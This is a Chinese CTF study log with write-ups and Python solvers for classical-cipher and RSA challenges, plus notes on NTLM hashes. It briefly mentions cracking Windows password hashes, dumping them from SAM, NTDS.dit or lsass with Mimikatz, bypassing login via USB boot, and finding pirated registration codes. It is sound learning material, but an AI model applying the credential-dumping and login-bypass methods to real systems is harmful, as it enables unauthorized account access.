wp2的方法，是直接放在在线网站上进行破解。32字节长度的散列值以**NTLM**的方式进行破解得到`good-luck`的小写字母字符串。可以看到cmd5网站对散列值的识别和破解还是很厉害的。

?? 但是，为什么wp1方法中的两个账户的密码的拼接，放在wp2的做法中就直接解密一个散列值就能获得他的明文值呢？

```
ctf:1002:06af9108f2e1fecf144e2e8adef09efd:a7fcb22a88038f35a8f39d503e7f0062:::
```

如图为wp2的解题结果，其实回头看看密文本身，只有一个ctf账户，wp2的解法其实更合理一些??：

第一个字符串放上去，说是需要付费才可以：



点击**购买**，唉，我不rich，发现还得登录qq，注册，才能购买。唉，为了避免在互联网直接暴露，这里就省点钱不买了。

第二个字符串放上去点击**解密**，自动识别NTLM类型并解密成功：



这里需要探究下为什么**John**工具会把一个账户拆成`ctf1`和`ctf2`两个账户。

2. kali工具 - John

[Hel10'Blog-Kali中John的使用方法-John是一个破解系统密码的工具](https://www.cnblogs.com/HelloCTF/p/13346125.html)

3. windows的系统密码

[先知社区-Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://xz.aliyun.com/t/1943)

在Windows系统中，比较常见是从系统导出来的NTLM hash，通过Hashcat能够破解出明文密码。

Hashcat支持超过200种高度优化的hash算法，其中和NTLM hash相关的有4个，分别为NetNTLMv1、NetNTLMv1+ESS、NetNTLMv2和NTLM。

NetNTLM具体是什么呢？又是如何获得的呢？本文受到byt3bl33d3r文章的启发，下面将结合自己的心得，介绍这部分内容：[byt3bl33d3r的github上关于NTLM的文章-Practical guide to NTLM Relaying in 2017 (A.K.A getting a foothold in under 5 minutes)](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

NTML hash，通常是指Windows系统下Security Account Manager中保存的用户密码hash。

该hash的生成方法：

1.将明文口令转换成十六进制的格式

2.转换成Unicode格式，即在每个字节之后添加0x00

3.对Unicode字符串作MD4加密，生成32位的十六进制数字串

实际测试：

用户密码为test123

转换成十六进制的格式为`74657374313233`

转换成Unicode格式为`7400650073007400310032003300`

对字符串`7400650073007400310032003300`作MD4加密，结果为`c5a237b7e9d8e708d8436b6148a25fa1`

MD4加密可使用工具HashCalc，如下图（在python3的hashlib里面没有md4这么一个方法）：



下面使用mimikatz导出用户密码的hash，对比进行验证，结果相同，验证成功，如下图：



在渗透测试中，通常可从Windows系统中的SAM文件和域控的NTDS.dit文件中获得所有用户的hash，通过`Mimikatz`读取`lsass.exe`进程能获得已登录用户的`NTLM hash`

补充：

`Windows Vista`和`Windows Server 2008`以前的系统还会使用`LM hash`

`LM hash`的生成方法本文暂不介绍

自`Windows Vista`和`Windows Server 2008`开始,Windows取消`LM hash`

但某些工具的参数需要填写固定格式`LM hash:NT hash`，可以将LM hash填0(LM hash可以为任意值)，即`00000000000000000000000000000000:NT hash`

**Net-NTLM hash**

通过是指**网络环境**下**NTLM**认证中的hash

NTLM认证采用质询/应答（Challenge/Response）的消息交换模式，流程如下：

客户端向服务器发送一个请求，请求中包含明文的登录用户名。服务器会提前存储登录用户名和对应的密码hash

服务器接收到请求后，生成一个16位的随机数(这个随机数被称为Challenge),明文发送回客户端。使用存储的登录用户密码hash加密Challenge，获得Challenge1

客户端接收到Challenge后，使用登录用户的密码hash对Challenge加密，获得Challenge2(这个结果被称为response)，将response发送给服务器

服务器接收客户端加密后的response，比较Challenge1和response，如果相同，验证成功

在以上流程中，登录用户的密码hash即NTLM hash，response中包含Net-NTLM hash

[更多NTLM认证的资料: The NTLM Authentication Protocol and Security Support Provider](http://davenport.sourceforge.net/ntlm.html)

之后略，这个文章[先知社区-Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://xz.aliyun.com/t/1943)关语NTLM写得很详细很详细。该文建议本地保存。

[题外话：突破Windows操作系统登录密码，U盘启动方式绕过登录账密](https://jingyan.baidu.com/article/3c343ff70a08eb0d37796391.html)

这个链接描述了启动U盘进操作系统，然后把windows的登录密码取出来然后进行破解的方法。有下面这如图的这两种方法。这里笔者并不知道这个链接中展示的方法是否是取证中获取windows系统密码的红队方法，先以土法对待。这个链接中展示出来的信息如下面两个图（这两个图，是描述使用启动U盘登录U盘操作系统，然后寻找原有系统的SAM文件夹，然后删除掉密码就可以直接登录这个操作系统了）：





[题外话：关语windows系统密码的介绍-百度文库](https://wenku.baidu.com/view/0822540179563c1ec5da71a0.html)

关语这个链接里出现的内容如下，但是真实性我这里并不保证，因为确实第一次听这种密码和密码设置。如下：

BIOS密码：有两种，一种，SetUP，进入系统可以直接进入，但是进入BIOS得输入密码；另一种，是System密码，无论是进入系统还是进入BIOS都得输入密码。

破解SetUp密码，方法有这么?种。方法一，Debug法；方法二，软件破解；方法三，自己编制文件破解；方法四，DOS下破解。

如果设置的是System方法，没有密码无法启动计算机，可以用这么几个方法：方法一，通用密码；方法二，CMOS放电。

### 传统知识+古典密码

[参考WP](https://www.cnblogs.com/ECJTUACM-873284962/p/7773486.html)

题干:

```
注意：得到的 flag 请包上 flag{} 提交
```



解压得到一个`传感器.zip`和一个`题目.txt`：

题目.txt:

```
小明某一天收到一封密信，信中写了几个不同的年份
          辛卯，癸巳，丙戌，辛未，庚辰，癸酉，己卯，癸巳。
          信的背面还写有“+甲子”，请解出这段密文。

key值：CTF{XXX}
```

`传感器.zip`解压得到`题目.txt`:

```
5555555595555A65556AA696AA6666666955
这是某压力传感器无线数据包解调后但未解码的报文(hex)
  
已知其ID为0xFED31F，请继续将报文完整解码，提交hex。

提示1：曼联
```

**注意**，这个题这会儿应该是出错了。这个压缩包解压获得的另一个`传感器.zip`是另一个题目的。

有这么一个表用来参考，古代中国的六十甲子顺序表：


可以得到：



题干中说信的背面还写有“+甲子”，于是我们可以把每个数加上60即可：



接下来，可以直接对应ascii码：


得到字符串：


直接提交这个字符串`XZSDMFLZ`无法通过。

进行栅栏解密：



获得如下结果:

```
得到因数(排除1和字符串长度):
 2 4

第1栏：XSMLZDFZ
第2栏：XMZFSLDZ
```

对这两个都进行一下凯撒解密：



得到`SHUANGYU`,提交flag：`flag{SHUANGYU}`

### 信息化时代的步伐

[参考WP](https://blog.csdn.net/MikeCoke/article/details/106101027)

题干：

```
也许中国可以早早进入信息化时代，但是被清政府拒绝了。附件中是数十年后一位伟人说的话的密文。请翻译出明文(答案为一串中文！) 注意：得到的 flag 请包上 flag{} 提交
```

得到文件`信息化时代的步伐.txt`:

```
606046152623600817831216121621196386
```


得到

```
计算机要从娃娃抓起
```

这个编码说实话很少见，参考[中文电码-百度百科](https://baike.baidu.com/item/%E4%B8%AD%E6%96%87%E7%94%B5%E7%A0%81/2667759?fr=aladdin)，可见这个电码其实还是很常见的，目前的应用也还蛮广泛。

提交flag:`flag{计算机要从娃娃抓起}`

### RSA1

题干：

```
注意：得到的 flag 请包上 flag{} 提交
```

题目.txt

```
p = 8637633767257008567099653486541091171320491509433615447539162437911244175885667806398411790524083553445158113502227745206205327690939504032994699902053229 
q = 12640674973996472769176047937170883420927050821480010581593137135372473880595613737337630629752577346147039284030082593490776630572584959954205336880228469 
dp = 6500795702216834621109042351193261530650043841056252930930949663358625016881832840728066026150264693076109354874099841380454881716097778307268116910582929 
dq = 783472263673553449019532580386470672380574033551303889137911760438881683674556098098256795673512201963002175438762767516968043599582527539160811120550041 
c = 24722305403887382073567316467649080662631552905960229399079107995602154418176056335800638887527614164073530437657085079676157350205351945222989351316076486573599576041978339872265925062764318536089007310270278526159678937431903862892400747915525118983959970607934142974736675784325993445942031372107342103852
```

RSA中已知dq，dp的计算m步骤（dp=dmod(p-1),dq=dmod(q-1)）：

(1).计算q模p的逆元I;

(2).计算m1=(c^dp)modp;

(3).计算m2=(c^dq)modq;

(4).m=(((m1-m2)*I)modp)*q+m2;

编写脚本如下（注意，这个脚本在py3里运行正常）:

```
import gmpy2
p = 8637633767257008567099653486541091171320491509433615447539162437911244175885667806398411790524083553445158113502227745206205327690939504032994699902053229
q = 12640674973996472769176047937170883420927050821480010581593137135372473880595613737337630629752577346147039284030082593490776630572584959954205336880228469
dp = 6500795702216834621109042351193261530650043841056252930930949663358625016881832840728066026150264693076109354874099841380454881716097778307268116910582929
dq = 783472263673553449019532580386470672380574033551303889137911760438881683674556098098256795673512201963002175438762767516968043599582527539160811120550041
c = 24722305403887382073567316467649080662631552905960229399079107995602154418176056335800638887527614164073530437657085079676157350205351945222989351316076486573599576041978339872265925062764318536089007310270278526159678937431903862892400747915525118983959970607934142974736675784325993445942031372107342103852
I = gmpy2.invert(q,p)
m1 = pow(c,dp,p)
m2 = pow(c,dq,q)
m = (((m1-m2)*I)%p)*q+m2
print(m)                               #10进制明文
print(hex(m)[2:])                      #16进制明文
print(bytes.fromhex(hex(m)[2:]))       #16进制转文本
```

获得

```
>python3 exp.py
11630208090204506176302961171539022042721137807911818876637821759101
6e6f784354467b57333163306d335f37305f4368316e343730776e7d
b'noxCTF{W31c0m3_70_Ch1n470wn}'
```

根据题干要求把`b'noxCTF{W31c0m3_70_Ch1n470wn}'`换成`flag{W31c0m3_70_Ch1n470wn}`

#### 总结

[CTF-RSA1（已知p、q、dp、dq、c）](https://blog.csdn.net/qq_32350719/article/details/102719279)

[中国剩余定理-孙子定理](https://baike.baidu.com/item/%E5%AD%99%E5%AD%90%E5%AE%9A%E7%90%86/2841597?fromtitle=%E4%B8%AD%E5%9B%BD%E5%89%A9%E4%BD%99%E5%AE%9A%E7%90%86&fromid=11200132&fr=aladdin)

这个链接里面的这句话说的好：```一切以解题为目的的抄代码都是耍流氓，我们还是要从数学理论上去解决它，最后再根据数学理论来写代码。```

已知条件：

```
c ≡ m**e mod n
m ≡ c**d mod n 
ϕ(n) = (p−1)∗(q−1)
d∗e ≡ 1 mod ϕ(n)
dp ≡ d mod (p−1)
dq ≡ d mod (q−1)
```

这里面有一些数学公式写得不太对（可能我作为参考别人WP的笔者，我写错了，这里先按我此时的理解来）。这里的三个横杠的等号说，在mod一个数的情况下，这个表达式时成立的。两个横杠的等号而言，是恒成立的。这里

```
c ≡ m**e mod n
m ≡ c**d mod n 
```

我个人认为是写两个杠的等号的

```
d∗e ≡ 1 mod ϕ(n)
```

这个表达式是可以的，没有问题的，但是下面这两个等式我觉得应该使用两个杠的等号。

```
dp ≡ d mod (p−1)
dq ≡ d mod (q−1)
```

接下来，说回正题：

利用中国剩余定理,我们可以得到
m 1 ≡ c d m o d p , m 2 ≡ c d m o d q m1≡c^{d} mod p,m2≡c^{d} mod qm1≡c 
d
 modp,m2≡c 
d
 modq

?? 这里还没总结完，推导不严谨。此时优先总结题型和脚本


# 20210513

### 凯撒？替换？呵呵!

[参考WP](https://www.pianshen.com/article/78551053920/)

题干：

```
MTHJ{CUBCGXGUGXWREXIPOYAOEYFIGXWRXCHTKHFCOHCFDUCGTXZOHIXOEOWMEHZO}

注意：得到的 flag 请包上 flag{} 提交, flag{小写字母}
```

这里使用到了在线网站`quipquip`，输入线索即可获得可能的解密后的明文：



```
输入Puzzle：
MTHJ{CUBCGXGUGXWREXIPOYAOEYFIGXWRXCHTKHFCOHCFDUCGTXZOHIXOEOWMEHZO}

输入Clues：
MTHJ{=flag{
```

获得这么一个字符串：

```
	flag substitution cipher decryption is always easy just like a piece of cake
```
flag{substitution cipher decryption is always easy just like a piece of cake}

把空格去掉：

`flag{substitutioncipherdecryptionisalwayseasyjustlikeapieceofcake}`

提交flag，正确

#### 总结

```
[quipquip]

https://quipqiup.com/

功能：处理简单替换密码神器
```

### old-fashion

[参考WP](https://blog.csdn.net/MikeCoke/article/details/106101582)

获得`题目.txt`:

```
Os drnuzearyuwn, y jtkjzoztzoes douwlr oj y ilzwex eq lsdexosa kn pwodw tsozj eq ufyoszlbz yrl rlufydlx pozw douwlrzlbz, ydderxosa ze y rlatfyr jnjzli; mjy gfbmw vla xy wbfnsy symmyew (mjy vrwm qrvvrf), hlbew rd symmyew, mebhsymw rd symmyew, vbomgeyw rd mjy lxrzy, lfk wr dremj. Mjy eyqybzye kyqbhjyew mjy myom xa hyedrevbfn lf bfzyewy wgxwmbmgmbrf. Wr mjy dsln bw f1_2jyf-k3_jg1-vb-vl_l
```

扔到quip里面自动进行词频分析获得如下结果：



看到flag`flag is n1_2hen-d3_hu1-mi-ma_a`

提交flag:`flag{n1_2hen-d3_hu1-mi-ma_a}`

### 萌萌哒的八戒

[参考WP](https://blog.csdn.net/MikeCoke/article/details/106102411)

题干：

```
萌萌哒的八戒原来曾经是猪村的村长，从远古时期，猪村就有一种神秘的代码。请从附件中找出代码，看看萌萌哒的猪八戒到底想说啥 注意：得到的 flag 请包上 flag{} 提交
```

获得一个图片，下面好像有什么字：


震惊！原来八戒在暗指猪圈加密！

猪圈加密对照表：


获得flag：`flag{whenthepigwanttoeat}`

### 权限获得第一步

题干：

```
你猜这是什么东西，记得破解后把其中的密码给我。答案为非常规形式。 注意：得到的 flag 请包上 flag{} 提交
```

获得文件`xxxx.txt`:

```
Administrator:500:806EDC27AA52E314AAD3B435B51404EE:F4AD50F57683D4260DFD48AA351A17A8:::
```

一看这个东西就知道以前做过这个（参考`windows的系统密码`），NTLM的方式去解密这个串，有两个方法，一个是线上去cmd5网站进行解密自动识别NTLM方式解密，另一个就是kali2020的john工具去进行解密。





获得查询结果：`3617656`

提交flag： `flag{3617656}`

### 世上无难事

[参考WP](https://www.pianshen.com/article/44861227949/)

题干：

```
以下是某国现任总统外发的一段指令，经过一种奇异的加密方式，毫无规律，看来只能分析了。请将这段语句还原成通顺语句，并从中找到key作为答案提交，答案是32位，包含小写字母。 注意：得到的 flag 请包上 flag{} 提交
```

下载文件得到：

```
VIZZB IFIUOJBWO NVXAP OBC XZZ UKHVN IFIUOJBWO HB XVIXW XAW VXFI X QIXN VBD KQ IFIUOJBWO WBKAH NBWXO VBD XJBCN NKG QLKEIU DI XUI VIUI DKNV QNCWIANQ XN DXPIMKIZW VKHV QEVBBZ KA XUZKAHNBA FKUHKAKX XAW DI VXFI HBN QNCWIANQ NCAKAH KA MUBG XZZ XEUBQQ XGIUKEX MUBG PKAWIUHXUNIA NVUBCHV 12NV HUXWI XAW DI XUI SCQN QB HZXW NVXN XZZ EBCZW SBKA CQ NBWXO XAW DI DXAN NB NVXAP DXPIMKIZW MBU JIKAH QCEV XA BCNQNXAWKAH VBQN HKFI OBCUQIZFIQ X JKH UBCAW BM XLLZXCQI XAW NVI PIO KQ 640I11012805M211J0XJ24MM02X1IW09


```

我看WP上在quip上输入原文之后，还输入`PIO=key`这么个clue(线索)，我也不知道这是为啥。在下面图二中我没有输入clue试着跑了一下，发现能够也直接跑出来结果。





?? 应该就是词频分析啥的吧，这里我应该有空回头看看这个题在考什么。

提交flag:`flag{640e11012805f211b0ab24ff02a1ed09}`

### RSA3

[参考WP](https://blog.csdn.net/weixin_44110537/article/details/106770992?utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromMachineLearnPai2%7Edefault-1.control)

获得题目的txt文件：

```
c1=22322035275663237041646893770451933509324701913484303338076210603542612758956262869640822486470121149424485571361007421293675516338822195280313794991136048140918842471219840263536338886250492682739436410013436651161720725855484866690084788721349555662019879081501113222996123305533009325964377798892703161521852805956811219563883312896330156298621674684353919547558127920925706842808914762199011054955816534977675267395009575347820387073483928425066536361482774892370969520740304287456555508933372782327506569010772537497541764311429052216291198932092617792645253901478910801592878203564861118912045464959832566051361
n=22708078815885011462462049064339185898712439277226831073457888403129378547350292420267016551819052430779004755846649044001024141485283286483130702616057274698473611149508798869706347501931583117632710700787228016480127677393649929530416598686027354216422565934459015161927613607902831542857977859612596282353679327773303727004407262197231586324599181983572622404590354084541788062262164510140605868122410388090174420147752408554129789760902300898046273909007852818474030770699647647363015102118956737673941354217692696044969695308506436573142565573487583507037356944848039864382339216266670673567488871508925311154801
e1=11187289
c2=18702010045187015556548691642394982835669262147230212731309938675226458555210425972429418449273410535387985931036711854265623905066805665751803269106880746769003478900791099590239513925449748814075904017471585572848473556490565450062664706449128415834787961947266259789785962922238701134079720414228414066193071495304612341052987455615930023536823801499269773357186087452747500840640419365011554421183037505653461286732740983702740822671148045619497667184586123657285604061875653909567822328914065337797733444640351518775487649819978262363617265797982843179630888729407238496650987720428708217115257989007867331698397
e2=9647291
```

已知c1, n, e1, c2, e2，是RAS共模攻击

编写EXP：

```
import  gmpy2
import  binascii
import  rsa
import math
from Crypto.Util import number
def exgcd(m, n, x, y):
    if n == 0:
        x = 1
        y = 0
        return (m, x, y)
    a1 = b = 1
    a = b1 = 0
    c = m
    d = n
    q = int(c / d)
    r = c % d
    while r:
        c = d
        d = r
        t = a1
        a1 = a
        a = t - q * a
        t = b1
        b1 = b
        b = t - q * b
        q = int(c / d)
        r = c % d
    x = a
    y = b
    return (d, x, y)#扩展欧几里得算法
c1=22322035275663237041646893770451933509324701913484303338076210603542612758956262869640822486470121149424485571361007421293675516338822195280313794991136048140918842471219840263536338886250492682739436410013436651161720725855484866690084788721349555662019879081501113222996123305533009325964377798892703161521852805956811219563883312896330156298621674684353919547558127920925706842808914762199011054955816534977675267395009575347820387073483928425066536361482774892370969520740304287456555508933372782327506569010772537497541764311429052216291198932092617792645253901478910801592878203564861118912045464959832566051361
c2=18702010045187015556548691642394982835669262147230212731309938675226458555210425972429418449273410535387985931036711854265623905066805665751803269106880746769003478900791099590239513925449748814075904017471585572848473556490565450062664706449128415834787961947266259789785962922238701134079720414228414066193071495304612341052987455615930023536823801499269773357186087452747500840640419365011554421183037505653461286732740983702740822671148045619497667184586123657285604061875653909567822328914065337797733444640351518775487649819978262363617265797982843179630888729407238496650987720428708217115257989007867331698397
e1=11187289
e2=9647291
n=22708078815885011462462049064339185898712439277226831073457888403129378547350292420267016551819052430779004755846649044001024141485283286483130702616057274698473611149508798869706347501931583117632710700787228016480127677393649929530416598686027354216422565934459015161927613607902831542857977859612596282353679327773303727004407262197231586324599181983572622404590354084541788062262164510140605868122410388090174420147752408554129789760902300898046273909007852818474030770699647647363015102118956737673941354217692696044969695308506436573142565573487583507037356944848039864382339216266670673567488871508925311154801
ans=exgcd(e1,e2,0,0)
s1=ans[1]
s2=ans[2]
m=(gmpy2.powmod(c1,s1,n)*gmpy2.powmod(c2,s2,n))%n#powmod()函数真香,分数取模也可直接算,一开始不知道还去找了很多的算法知识
print(number.long_to_bytes(m))
```

运行：

```
>python3 exp.py
b'flag{49d91077a1abcb14f1a9d546c80be9ef}'
```

#### 总结

第一次运行的时候报错：



居然没有rsa库。python3的pip顺利安装上rsa库，python2被告知不能安装rsa库。看来rsa库和libnum一样只许python3装，不许python2装。

### RSA2

[参考WP](https://blog.csdn.net/georgeiweb/article/details/109249377)

[参考WP2](https://blog.csdn.net/Yu_csdnstory/article/details/103430491)

解压获得文件如下：

题目.txt

```
e = 65537
n = 248254007851526241177721526698901802985832766176221609612258877371620580060433101538328030305219918697643619814200930679612109885533801335348445023751670478437073055544724280684733298051599167660303645183146161497485358633681492129668802402065797789905550489547645118787266601929429724133167768465309665906113
dp = 905074498052346904643025132879518330691925174573054004621877253318682675055421970943552016695528560364834446303196939207056642927148093290374440210503657

c = 140423670976252696807533673586209400575664282100684119784203527124521188996403826597436883766041879067494280957410201958935737360380801845453829293997433414188838725751796261702622028587211560353362847191060306578510511380965162133472698713063592621028959167072781482562673683090590521214218071160287665180751
```

已知e, n, dp, c, 这是一个RSA的dp泄露。

已知条件：

```
dp = d mod (p-1)
m = c**d mod n
d*e = 1 (mod f(n))
f(n) = (p-1)(q-1)
```

求m, 求d(??这个推导可能不严谨)

```
d = gmpy2.invert(e, f(n))

因为 dp*e = e*d mod (p-1)

=> e*d = [k1]*(p-1) + dp*e ... ... {表达式1}

又因为 e*d = 1 (mod f(n))
=> ed = [k2]*(p-1)*(q-1) + 1 ... ... {表达式2}

由1，2得到
[k1]*(p-1) + dp*e = [k2]*(p-1)*(q-1) + 1

=> (p-1)*([k2](q-1)-[k1]) + 1 = dp*e
令 [k2](q-1) - [k1] = x
所以 (p-1)*x + 1 = dp.e

又因为 dp < p-1
所以 x<e 成立
则  x 属于 (1,e)

所以， 利用计算机，设计脚本遍历x，解出 p； 再利用 n ，解出 q 

由 f(n) = (p-1)(q-1)

求得d，再解m
```

编写python脚本：

```
import gmpy2
import binascii

def getd(n,e,dp):
    for i in range(1,e):
        if (dp*e-1)%i == 0:
            if n%(((dp*e-1)/i)+1)==0:
                p=((dp*e-1)/i)+1
                q=n/(((dp*e-1)/i)+1)
                phi = (p-1)*(q-1)
                d = gmpy2.invert(e,phi)%phi
                return d

e = 65537
n = 248254007851526241177721526698901802985832766176221609612258877371620580060433101538328030305219918697643619814200930679612109885533801335348445023751670478437073055544724280684733298051599167660303645183146161497485358633681492129668802402065797789905550489547645118787266601929429724133167768465309665906113
dp = 905074498052346904643025132879518330691925174573054004621877253318682675055421970943552016695528560364834446303196939207056642927148093290374440210503657
c = 140423670976252696807533673586209400575664282100684119784203527124521188996403826597436883766041879067494280957410201958935737360380801845453829293997433414188838725751796261702622028587211560353362847191060306578510511380965162133472698713063592621028959167072781482562673683090590521214218071160287665180751
d=getd(n,e,dp)
m=pow(c,d,n)
print binascii.unhexlify(hex(m)[2:])
```

python2跑一跑，得到`flag{wow_leaking_dp_breaks_rsa?_98924743502}`

#### 总结

下载python的`gmpy2`库，直接`pip install gmpy2`是不可能的，因为现在这几年没啥人运维pip的管理了。建议下载安装包文件，下载地址：`https://www.lfd.uci.edu/~gohlke/pythonlibs/#gmpy`。下载的时候直接`ctrl+f`搜索想安装的库就行。注意安装包要和python的版本、python的位数匹配。建议看着python的版本同时下载32位和64位的安装包，然后直接`pip install wheel文件名字`即可。

libnum库 据说是，只适用python3版本，不适合python2版本。这个库直接`python3 -m pip install libnum`即可。



### 异性相吸

[参考WP](https://blog.csdn.net/MikeCoke/article/details/106107104)

[参考WP2](https://blog.csdn.net/qq_42391153/article/details/103260382)

题干：

```
最近出现了一个奇葩观点，说性别都不一样，怎么能谈恋爱？为了证明这个观点错误，请大家证明异性是相吸的。 注意：得到的 flag 请包上 flag{} 提交
```

解压得到两个文件：

key.txt(这个全是可编码的)

```
asadsasdasdasdasdasdasdasdasdasdqwesqf
```

密文.txt(里面放的是不可编码的东西，我估计复制在这里也没啥用，最好还是看原文件)

```
ἇ̀Ј唒ဃ塔屋䩘卖剄䐃堂ن䝔嘅均ቄ䩝ᬔ
```

构造exp:

```
a = '0110000101110011011000010110010001110011011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011000010111001101100100011100010111011101100101011100110111000101100110'
b = '0000011100011111000000000000001100001000000001000001001001010101000000110001000001010100010110000100101101011100010110000100101001010110010100110100010001010010000000110100010000000010010110000100011000000110010101000100011100000101010101100100011101010111010001000001001001011101010010100001010000011011'
c = ''

for i in range(len(a)):
    if(a[i] == b[i]):
        c+='0'
    else:
        c+='1'
print(c)
```

得到运行结果：

```
0110011001101100011000010110011101111011011001010110000100110001011000100110001100110000001110010011100000111000001110010011100100110010001100100011011100110110011000100011011101100110001110010011010101100010001101010011010001100001001101110011010000110011001101010110010100111000001110010110010101111101
```

接下来使用010 Editor 新建一个Hex文件，复制上面的`0101`串粘贴为二进制数据：



如图：


获得flag：

```
flag{ea1bc0988992276b7f95b54a7435e89e}
```

#### 总结



**010 Editor**和**winhex**都是二进制、十六进制的文本编辑器。个人认为010 editor比winhex更适合做CTF题目，如图，粘贴复制都可以十六进制或者二进制。010 Editor 的下载去官方下载即可，网上可以轻易搜到注册码。winhex的粘贴复制应该也能这么干，但是选项按钮不太好找。

### RSA

[参考WP](https://blog.csdn.net/yiqiushi4748/article/details/108329500)

[参考WP2](https://www.cnblogs.com/jane315/p/13175850.html)

解压获得两个文件：



已知密文、公钥文件，求私钥文件并解密

#### 解法一

写EXP脚本：

```
import Crypto
import binascii
from Crypto.PublicKey import RSA
from Crypto.Util.number import long_to_bytes,bytes_to_long
import gmpy2
import rsa
r=open('pub.key').read()
pub=RSA.importKey(r)
n=pub.n
e=pub.e

print(n)
print(e)
p = 285960468890451637935629440372639283459
q = 304008741604601924494328155975272418463
phi = (p-1)*(q-1)
d= gmpy2.invert(e,phi)

key = rsa.PrivateKey(n, e, int(d), p, q)

with open("flag.enc", "rb") as f:
    f = f.read()
    print(rsa.decrypt(f, key))
```

运行得到结果：

```
>python3 exp.py
86934482296048119190666062003494800588905656017203025617216654058378322103517
65537
b'flag{decrypt_256}\n'
```

#### 解法二

这种形式很像`.pem`的格式（PEM是OpenSSL和许多其他ssl工具的标准格式，OpenSSL使用PEM文件格式存储证书和密钥

将pub.key后缀改为.pem，和flag.enc一起放入kali中，接下来

使用openssl命令:

`openssl rsa -pubin -text -modulus -in warmup -in pub.pem`

输出如下：

```
(root💀ranja)-[~/Desktop/RSA(题目就叫RSA)]
└─# openssl rsa -pubin -text -modulus -in warmup -in pub.pem 
RSA Public-Key: (256 bit)
Modulus:
    00:c0:33:2c:5c:64:ae:47:18:2f:6c:1c:87:6d:42:
    33:69:10:54:5a:58:f7:ee:fe:fc:0b:ca:af:5a:f3:
    41:cc:dd
Exponent: 65537 (0x10001)
Modulus=C0332C5C64AE47182F6C1C876D42336910545A58F7EEFEFC0BCAAF5AF341CCDD
writing RSA key
-----BEGIN PUBLIC KEY-----
MDwwDQYJKoZIhvcNAQEBBQADKwAwKAIhAMAzLFxkrkcYL2wch21CM2kQVFpY9+7+
/AvKr1rzQczdAgMBAAE=
-----END PUBLIC KEY-----

```

获得模数N和e。

接下来，想办法求另一侧的d。首先要进行大数分解：

1). 使用在线工具http://www.factordb.com 

2). 使用yafu工具

3). 使用python模块（需安装， pip3 install factordb-pycli）(**注意**：这个库不是本地的离线的库，这个库需要联网访问互联网才能快速得到分解的结果)

首先示例如下：

```
from factordb.factordb import FactorDB
factor=FactorDB(N)
factor.connect()
factor_list=factor.get_factor_list()
#factor_list即为分解出的质数集合的表
```

```
>>> N = 0xC0332C5C64AE47182F6C1C876D42336910545A58F7EEFEFC0BCAAF5AF341CCDD
>>> N
86934482296048119190666062003494800588905656017203025617216654058378322103517
>>> factor=FactorDB(N)
>>> factor.connect()
<Response [200]>
>>> factor_list=factor.get_factor_list()
>>> factor_list
[285960468890451637935629440372639283459, 304008741604601924494328155975272418463]
```

运行程序得到两个大素数：[285960468890451637935629440372639283459, 304008741604601924494328155975272418463]

接下来使用rsatool得到私钥d，使用命令：`python rsatool.py -o private.pem -e 65537 -p 285960468890451637935629440372639283459 -q 304008741604601924494328155975272418463`

运行得到：

```
>python3 rsatool.py -o private.pem -e 65537 -p 285960468890451637935629440372639283459 -q 304008741604601924494328155975272418463
Using (p, q) to initialise RSA instance

n =
c0332c5c64ae47182f6c1c876d42336910545a58f7eefefc0bcaaf5af341ccdd

e = 65537 (0x10001)

d =
b378155840fb2b8fbdd869db5b7e91994f1ece256ee1175ec2c2bd3a4a795ad1

p = 285960468890451637935629440372639283459 (0xd721fba58aa2cccf65862d209fd03903)

q = 304008741604601924494328155975272418463 (0xe4b5f4318e91babbe8d7a8e91680cc9f)

Saving PEM as private.pem
```

得到私钥文件private.pem

把private.pem和flag.enc放在同一文件夹中，使用命令`openssl rsautl -decrypt -in flag.enc -inkey private.pem`

接下来运行openssl得到：

```
└─# openssl rsautl -decrypt -in flag.enc -inkey private.pem
flag{decrypt_256}
```

### 还原大师

题干：

```
我们得到了一串神秘字符串：TASC?O3RJMV?WDJKX?ZM,问号部分是未知大写字母，为了确定这个神秘字符串，我们通过了其他途径获得了这个字串的32位MD5码。但是我们获得它的32位MD5码也是残缺不全，E903???4DAB????08?????51?80??8A?,请猜出神秘字符串的原本模样，并且提交这个字串的32位MD5码作为答案。 注意：得到的 flag 请包上 flag{} 提交
```

构造代码：

```
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import hashlib

#print hashlib.md5(s).hexdigest().upper()
k = 'TASC?O3RJMV?WDJKX?ZM'
for i in range(26):
    temp1 = k.replace('?',str(chr(65+i)),1)
    for j in range(26):
        temp2 = temp1.replace('?',chr(65+j),1)
        for n in range(26):
            temp3 = temp2.replace('?',chr(65+n),1)
            s = hashlib.md5(temp3.encode('utf8')).hexdigest().upper()
            if s[:4] == 'E903':
                print s
```

输出：

```
E9032994DABAC08080091151380478A2
```

提交flag: `flag{E9032994DABAC08080091151380478A2}`

# 20210514

### Unencode

题干：

```
注意：得到的 flag 请包上 flag{} 提交
```

获得`题目.txt`:

```
89FQA9WMD<V1A<V1S83DY.#<W3$Q,2TM]
```

直接进行UUencode解码：



获得flag:`flag{dsdasdsa99877LLLKK}`

### robomunication

[参考WP](https://blog.csdn.net/weixin_43404314/article/details/104258899)

[参考WP2](https://blog.csdn.net/LingDIHong/article/details/112616336)

这里不太能看动使用这个**audacity**工具的使用方法。如下：


题干：

```
注意：得到的 flag 请包上 flag{} 提交
```

通过摩丝编码收集到字符串`HELLO WHAT IS THE KEY IT IS BOOP BEEP`

提交flag：`flag{BOOPBEEP}`

### RSAROLL

[参考WP](https://www.freesion.com/article/41121241955/)

题干：

```
注意：得到的 flag 请包上 flag{} 提交
```

解压压缩包得到两个文件：

`data.txt`

```
{920139713,19}

704796792
752211152
274704164
18414022
368270835
483295235
263072905
459788476
483295235
459788476
663551792
475206804
459788476
428313374
475206804
459788476
425392137
704796792
458265677
341524652
483295235
534149509
425392137
428313374
425392137
341524652
458265677
263072905
483295235
828509797
341524652
425392137
475206804
428313374
483295235
475206804
459788476
306220148

```

`题目.txt`

```
RSA roll！roll！roll！
Only number and a-z
（don't use editor
which MS provide）
```

得知N（920139713）和e（19），使用yafu分解得到：



N被分解为`49891`和`18443`，分别是p和q。

